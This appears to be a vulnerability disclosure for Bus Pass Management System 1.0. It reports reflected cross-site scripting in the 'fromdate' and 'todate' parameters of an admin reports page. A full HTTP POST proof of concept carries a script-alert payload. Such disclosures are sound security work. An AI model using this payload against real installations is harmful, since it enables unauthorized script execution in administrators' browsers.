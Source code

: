 # Bus_management
Bus Pass Management System Using PHP and MySQL 1.0

# Auditor:
Shouvik Dutta <a href="https://www.linkedin.com/in/shouvik-dutta/">@shouvik_dutta</a>

# Description: 
Cross-site Scripting detected in Bus Pass Management System Project 1.0

Admin Panel - Report of Pass Page is vulnerable to Cross-Site Scripting

The web application application includes improperly sanitized user input in the admin page specifically at `fromdate` & `todate` parameter at the /pass-bwdates-reports-details.php endpoint output it generates. This can lead to the execution of arbitrary scripts in the context of the victim's browser when they interact with a maliciously crafted link.

Vulnerable Endpoint - /pass-bwdates-reports-details.php
Vulnerable Parameter - `fromdate` & `todate`

# PoCs

`Vulnerable URL: /admin/pass-bwdates-reports-details.php`
```
POST Request

POST /admin/pass-bwdates-reports-details.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://localhost
Connection: close
Referer: http://localhost/admin/pass-bwdates-report.php
Cookie: PHPSESSID=kful63rkjq5nk1ordm2tm9keg6
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

fromdate=<script>alert(1)</script>&todate=1111-11-11&submit=
```
